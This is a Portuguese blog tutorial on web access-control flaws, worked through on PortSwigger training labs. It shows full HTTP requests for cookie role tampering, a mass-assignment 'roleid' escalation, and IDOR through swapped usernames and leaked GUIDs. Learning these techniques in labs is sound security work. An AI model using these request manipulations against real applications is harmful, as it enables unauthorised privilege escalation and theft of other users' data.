

## Access Control: bypass em  controles

Mais uma série! Quero com esta série desenvolver junto com você o **pensamento  ofensivo**, acerca deste tema. Controles de Acessos estão presentes em quase todo lugar. Vamos passar por alguns cenários aqui, sempre visando desenvolver capacidade analítica, isso faz total diferença.

Mas um vez, meu intuito aqui não é te ensinar a resolver labs, principalmente pelo fato de que a resolução já estará presente nos labs, meu objetivo é desenvolver, junto com você essa capacidade de pensar de forma ofensiva sobre os cenários. Bem, sem mais enrolação, vamos lá!

> [!Observação] Sobre os labs...
> Vou usar alguns labs da PortSwigger como cenários a fim de treinarmos deixarei o link ds labs no final do paper, caso queira acompanhar comigo (recomendo).

### Cookies: sempre preste atenção neles

O cenário aqui é o seguinte: uma aplicação, simples, com feature de gerenciamento de sessão, login, e o que parece ser um "e-commerce". Aqui, já batemos o olho e pensamos em possíveis falhas:

- Regra de negócio:
 	- Talvez adulterar preços dos itens.
 	- Comprar de graça.
- Access Control Vulnerabilities (finalidade do lab).

Isso com base apenas em navegação pela aplicação. Claro, A hipótese da regra de negócio não vai se encaixar aqui.

É interessante, sempre como parte do mapeamento inicial sempre olhar cookies, headers e observar as requisições/respostas.

Veja nesse nosso cenário:



São sutis, mas podem mudar todo o jogo. Claro, aqui está de forma muito explícita, mas já dá para nos dar uma noção sobre o que olhar e onde olhar.

Nesse ponto, é imprescindível que passe na sua cabeça alterar aquele valor ali de *false* para *true* . Fazendo isso, você já sabe o resultado.

Mapeamento manual é uma **etapa chave** para o sucesso do ataque.

### Access Control: brincando com as features

É sempre interessante "brincar" com as features. Quando você faz login, existe uma feature de troca de e-mail. Só que essa feature tem algo meio "diferente", veja:

```
POST /my-account/change-email HTTP/2
Host: 0a24003403ec11ba811a1bf8003200ad.web-security-academy.net
Cookie: session=3IyVKTUpqfS4X5kg1JjeWEbrbdDi2lBQ
Content-Length: 30
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Content-Type: text/plain;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a24003403ec11ba811a1bf8003200ad.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a24003403ec11ba811a1bf8003200ad.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"email":"rato@ratovelho.com"}
```

A resposta:

```
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 122

{
  "username": "wiener",
  "email": "rato@ratovelho.com",
  "apikey": "j1Rc4ATlL3bVEsGateTXnSibfV7e7SCm",
  "roleid": 1
}
```

Que estranho e perigoso. Eu diria que está cuspindo informação demais e desnecessária. Nesse ponto aqui, é interessante pensar nas possibilidades:

- Um Mass Assignment.
Creio que a essa altura você já conheça essa falha. O ideal é sempre ter esse músculo treinado: Olhou o cenário, deduziu quais possíveis falhas podem surgir ali, isso é crucial.

Ao que tudo indica, o nível de permissionamento é indicado de forma numérica. Nesse ponto, é crucial levantar a hipótese de alterar esse números tanto para mais quanto mais quanto para menos.Mas pergunta é: como? não temos uma função na página de perfil do usuário que permita isso.

Aí que entra a hipótese anterior: Mass Assignment.

Para tentar é muito simples:

```
POST /my-account/change-email HTTP/2
Host: 0a1300a303a33c33859deefa003e0001.web-security-academy.net
Cookie: session=5L6Y0Nt619bL35bObDg1IWAWKbYgYzpJ
Content-Length: 45
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Content-Type: text/plain;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a1300a303a33c33859deefa003e0001.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1300a303a33c33859deefa003e0001.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
 "email":"rato@ratovelho.com",
 "roleid":2  
}
```

A resposta:

```
HTTP/2 302 Found
Location: /my-account
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 122

{
  "username": "wiener",
  "email": "rato@ratovelho.com",
  "apikey": "uWBE0XUif7Z8ybCRZoEZ3KRuxZsh21PD",
  "roleid": 2
}
```

Interessante, não? No caso desse lab aqui, você percebe que realmente houve alteração do nível de permissionamento, visto que aparece o painel administrativo.

### Access Control: ID Simples e GUID

Ao olhar uma request como essa aqui imediatamente tem que vir em sua mente: "Alterar para outro usuário e ver no que dá":

```
GET /my-account?id=wiener HTTP/2
Host: 0ace00e60425c92580ce5d72003e00cc.web-security-academy.net
Cookie: session=XDUOPK7qxfnGXnqWXQDuo3wBsIdyajA4
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ace00e60425c92580ce5d72003e00cc.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

o fluxo correto era o backend validar aquele session cookie ali mas no caso aqui não está assim não hehehe:

```
GET /my-account?id=carlos HTTP/2
Host: 0ace00e60425c92580ce5d72003e00cc.web-security-academy.net
Cookie: session=XDUOPK7qxfnGXnqWXQDuo3wBsIdyajA4
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ace00e60425c92580ce5d72003e00cc.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

Veja:

```HTML
<p>Your username is: carlos</p>
 <div>Your API Key is: YRdX1ZYJElR0hSRRh4Csq06HjfCDNuAW</div><br/>
```

Eu sei que é simplista demais, mas sempre tente, esse detalhe pode passar desapercebido para um dev desatento.

Agora veja esse cenário aqui:

```
GET /my-account?id=4b9feaa9-2428-49c7-9bf8-bdcbc64804f8 HTTP/2
Host: 0a4100d20361b274807cd00400b5004d.web-security-academy.net
Cookie: session=0S49qK84G0lpPn0DXrNwsvp4Cm3Tlqht
Cache-Control: max-age=0
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a4100d20361b274807cd00400b5004d.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Você bate o olho e pensa: e agora? como vou testar IDOR?

Isso ai se chamam GUID para quem não conhece e pode ser bem comum no mundo real, então é sempre saber o que fazer nesses casos.

Ao lidar com esse tipo de ID ou mesmo quando o ID passar por um função de Hash, a sacada é a seguinte: Se você criasse duas contas e testasse com elas, trocado os GUID entre si, que é o comum de se fazer, talvez não seria considerado tão impactante por conta da complexidade desse GUID, afinal, imagine fazer brute force disso ai! Etão teremos de **buscar  um lugar que "vaze" esses GUIDs.**

Quando o cenário é esse, a sacada é essa.

E no nosso cenário aqui, trata-se de um blog, onde cada post desse blog, podemos clicar no perfil de quem criou o post, e ao clicar:

```
GET /blogs?userId=f937d513-2f7a-4de0-9aa0-c897c47ec374 HTTP/2
Host: 0a4100d20361b274807cd00400b5004d.web-security-academy.net
Cookie: session=0S49qK84G0lpPn0DXrNwsvp4Cm3Tlqht
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4100d20361b274807cd00400b5004d.web-security-academy.net/post?postId=3
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

 O GUID do sujeito ali. Agora é só fazer a troca.

A questão é que se apenas considerarmos falha por apenas falhas, ou seja, **sem impacto**, ou sem demonstrar como aquela falha pode ser "escalada", seremos como um scanner de vulnerabilidades, **só que humano.**

Não adiantaria eu saber que seu tenho acesso ao GUID de alguém , eu tenho acesso as seus dados, a pergunta que deve ser é: Como eu poderia ter acesso aos GUIDs?

## No fim

Esse tipo de falha, sem dúvida alguma você deve ter em mente, quase qualquer aplicação tem esse tipo de feature presente e não é incomum ter falhas nelas. Scanners de vulnerabilidades podem achá-las, mas para alavancar o ataque ou mesmo encontrar aquelas sutis, somente uma "tool" conseguirá: **seu cérebro.**

Sabemos que são labs bem simples, mas se usarmos da forma correta, focando em treinar **mindset** ofensivo, olhar analítico, faremos bom uso deles, por mais simples que possam ser. Por hoje é só! Te espero no próximo episódio da série.

Muito obrigado!
Até breve!

---
Para saber mais sobre [Access Control](https://portswigger.net/web-security/access-control)
[Link](https://portswigger.net/web-security/all-labs#access-control-vulnerabilities) para todos os labs.

